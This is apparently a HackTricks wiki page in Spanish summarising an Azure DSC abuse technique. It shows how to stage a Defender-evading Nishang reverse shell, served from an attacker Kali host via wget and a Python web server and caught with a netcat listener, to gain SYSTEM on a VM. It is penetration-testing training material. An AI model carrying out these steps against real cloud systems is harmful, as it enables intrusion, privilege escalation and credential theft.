 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Consulta la publicación completa en:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Resumen de la Preparación de Infraestructura del Servidor Remoto (C2) y Pasos

#### Visión General

El proceso implica configurar una infraestructura de servidor remoto para alojar una carga útil modificada de Nishang `Invoke-PowerShellTcp.ps1`, llamada `RevPS.ps1`, diseñada para eludir Windows Defender. La carga útil se sirve desde una máquina Kali Linux con IP `40.84.7.74` utilizando un servidor HTTP simple en Python. La operación se ejecuta a través de varios pasos:

#### Paso 1 — Crear Archivos

- **Archivos Requeridos:** Se necesitan dos scripts de PowerShell:
1. `reverse_shell_config.ps1`: Un archivo de Configuración de Estado Deseado (DSC) que obtiene y ejecuta la carga útil. Se puede obtener de [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Un script para publicar la configuración en la VM, disponible en [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalización:** Las variables y parámetros en estos archivos deben adaptarse al entorno específico del usuario, incluidos los nombres de recursos, rutas de archivos e identificadores de servidor/carga útil.

#### Paso 2 — Comprimir el Archivo de Configuración

- El `reverse_shell_config.ps1` se comprime en un archivo `.zip`, preparándolo para la transferencia a la Cuenta de Almacenamiento de Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Paso 3 — Establecer el contexto de almacenamiento y cargar

- El archivo de configuración comprimido se carga en un contenedor de almacenamiento de Azure predefinido, azure-pentest, utilizando el cmdlet Set-AzStorageBlobContent de Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Paso 4 — Preparar Kali Box

- El servidor Kali descarga la carga útil RevPS.ps1 de un repositorio de GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- El script se edita para especificar la VM de Windows objetivo y el puerto para el shell inverso.

#### Paso 5 — Publicar Archivo de Configuración

- El archivo de configuración se ejecuta, lo que resulta en que el script de shell inverso se despliega en la ubicación especificada en la VM de Windows.

#### Paso 6 — Alojar Carga Útil y Configurar Escucha

- Se inicia un Python SimpleHTTPServer para alojar la carga útil, junto con un listener de Netcat para capturar conexiones entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- La tarea programada ejecuta la carga útil, logrando privilegios a nivel de SYSTEM.

#### Conclusión

La ejecución exitosa de este proceso abre numerosas posibilidades para acciones adicionales, como el volcado de credenciales o la expansión del ataque a múltiples VMs. La guía fomenta el aprendizaje continuo y la creatividad en el ámbito de Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
